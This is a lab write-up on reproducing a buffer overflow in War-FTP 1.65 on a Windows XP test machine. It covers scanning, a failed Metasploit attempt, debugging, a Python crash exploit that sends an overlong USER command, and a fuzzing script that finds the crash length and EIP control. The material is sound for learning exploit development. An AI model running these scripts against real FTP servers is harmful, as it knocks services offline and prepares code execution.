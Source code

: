 # Lab Machine Write up and Notes 

## Resources: 

Original Exploit: https://www.exploit-db.com/exploits/3570


### Nmap of the XP Machine

<img src="/images/nmap-xp-machine-tcp.png" >

A quick Nmap scan of the target machines reveals TCP port 21 open. I also outputted to all formats 
so I can import it into searchsploit to see if it catches some stuff. 

###  SearchSploit Results

I imported the Nmap scan like so: 

``
searchsploit --nmap xp-machine-tcp.xml 
``

But output was too verbose so I did not put it here and instead re-ran the command manually 

<img src="/images/searchsploit-1.png" >


###  Metasploit Console Exploit

<img src="/images/msfconsole.png" >

As you can see, the exploit did not work ( This is because it just crashed the application so, we are going to remake this manually )


### I Attached The Program to Immunity Debugger 

<img src="/images/immunity-ftp.png" width=812px height=474px>


### Vulnerability Discovery Inside The Application 

## Manual 

#### Python One Liner To Find Crashing Point Manually

This prints 1,000 As for ease of access 

<img src="/images/python-oneliner.png">

#### In the case of trying this directly through a FTP Client on a modern Distrobution the Client will stop you from sending the max buffer 

<img src="/images/failed-exploit.png">

#### So we are going to try with NetCat and See if that works better 

<img src="/images/crash-succeeded.png">

#### As you can see we crashed the program ( I did have to enter a pass before it crashed ) and to confirm the crash opened our debugger 

<img src="/images/immunity-crash.png" width=812px height=474px>

#### YAAAY we have control over the EIP and have written over it with our A's 

<img src="/images/immunity-EIP.png">

#### I have created an Exploit that will crash the server! 

This is a skeleton exploit we will add on more stuff as we find it

```python3
#!/usr/bin/python3

## War-FTP 1.65 Exploit

import socket
from urllib import response 

# define the variables to be sent to the server
ip = '192.168.164.170'
port = 21
buffer = b"A" * 510
payload = ""

# create the socket to connect to the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((ip, port))
# because there is a banner we wanna print it out 
response = s.recv(1024)
print(response)

# sending the exploit 
s.send(b"USER " + buffer + b"\r\n")
response = s.recv(1024)
print(response)

# because you have to enter the pass as well 
s.send(b"PASS PARROTASSASSIN15\r\n")
s.close()

```

## Automation 

#### We need to find the exact crash point so we make a fuzzing script to narrow it down after manual or automate it from the beginning 


```python3
#!/usr/bin/python3

import socket
from time import sleep
from urllib import response 

buffer = b"B" * 10
x = 0

while True: 
    buff = (b"A" * x ) + buffer
    print("Fuzzing " + str(len(buff)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(('192.168.164.170', 21))
    response = s.recv(1024)
    print(response)
    s.send(b"USER " + buff + b"\r\n")
    response = s.recv(1024)
    s.send(b"PASS PARROTASSASSIN15\r\n")
    s.close
    x = x + 100
    sleep(2)
```

#### We find that it crashes at 510 as the server no longer responds after 

<img src="/images/python3-crash.png" width=300px height=200px>


#### Let's find how big we can go with the buffer space 

By slowly incrementing the value of the buffers being sent you can look for a new crash, something to break etc 
the bigger the crash the more you can do and the easier it is to exploit it 

#### It seems we can only send 1100 bytes at a time! 

as seen here: 

<img src="/images/broken-progam.png">
